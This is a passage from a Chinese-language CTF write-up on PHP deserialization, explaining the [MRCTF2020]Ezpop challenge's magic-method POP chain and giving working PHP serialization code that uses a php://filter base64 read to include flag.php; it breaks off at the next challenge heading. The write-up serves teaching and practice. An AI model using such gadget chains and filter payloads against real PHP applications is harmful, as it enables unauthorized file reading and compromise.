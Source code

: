> > > > > > ?> 
> > > > > > ```
> > > > > > 
> > > > > > *   传入在phpinfp页面中curl+f直接搜flag就行。
> > > > > >     ![在这里插入图片描述](img/ffe90f6b2d2b34e87cacb28aafa0e565.png)
> > > > > > *   简单的反序列化和php动态函数执行。
> > > > > > 
> > > > > > ### 3、[MRCTF2020]Ezpop
> > > > > > 
> > > > > > *   同样是一题反序列化题目。先介绍一下这些不常见的魔术方法
> > > > > > 
> > > > > > > __invoke() 对象本身不能直接当函数用，如果被当做函数用，会直接回调__invoke方法
> > > > > > > __toString() 当一个对象被当作字符串对待的时候，会触发这个魔术方法
> > > > > > > __get($key) 当想要获取一个类的私有属性，或者获取一个类并为定义的属性时。该魔术方法会被调用。
> > > > > > 
> > > > > > *   首先看到类`Modifier`中的`include`函数加上前面提示的 flag.php 就能想到php伪协议读取源代码。所以最终目的是触发`__invoke()` 方法。同时将结果显示出来，就用到了类`Show`中的`__construct()`方法。
> > > > > > *   但要完成对`source`属性赋值的话，就需要调用`__toString()`方法，而方法`__wakeup()`在反序列化时被调用，调用后匹配字符串黑名单，这时就将`source`属性当作字符串来处理了。也就是能触发`__toString()`方法。
> > > > > > *   而给`source`属性赋值先是调用了`str`属性，如果让`str`实例化为类`Test`，那么再为`source`属性赋值的话，`source`属性在类`Test`中未定义，也就能触发 `__get($key)`方法返回一个函数，但只要这个函数是对象`Modifier`，就能触发`_invoke()`方法达到目的。
> > > > > > *   那么最后整个pop链的思路就是从类`Show`开始，让`source`属性作为一个对象，在反序列化时触发`__wakeup()`方法将`source`作为字符串来处理来触发`__toString()`方法，然后将str实例化为类`Test`，因为调用了未在`Test`中定义的属性`source`触发 `__get($key)`方法，只需将属性p实例化为`Modifier`类，这样被作为函数返回时，就能触发 `__invoke()`完成包含。
> > > > > > *   所以最后序列化代码
> > > > > > 
> > > > > > ```
> > > > > > <?php
> > > > > > class Modifier {
> > > > > >     protected  $var='php://filter/read=convert.base64-encode/resource=flag.php' ;
> > > > > > 
> > > > > > }
> > > > > > 
> > > > > > class Show{
> > > > > >     public $source;
> > > > > >     public $str;
> > > > > > 	public function __construct($file){
> > > > > >     $this->source = $file;
> > > > > >     }
> > > > > > }
> > > > > > 
> > > > > > class Test{
> > > > > >     public $p;
> > > > > > }
> > > > > > 
> > > > > > $a = new Show('a');
> > > > > > $a->str = new Test();
> > > > > > $a->str->p = new Modifier();
> > > > > > $b = new Show($a);
> > > > > > echo urlencode(serialize($b)); 
> > > > > > ```
> > > > > > 
> > > > > > *   必须url转码一下，不然会因为`protected`属性而出现乱码，用的`php://filter`伪协议，同时不在黑名单里。直接get传入base64解码就可以了。
> > > > > > *   反序列化最难的就是找利用链，我感觉逻辑还是不太清晰。
> > > > > > 
> > > > > > ### 4、[极客大挑战 2019]RCE ME
> > > > > > 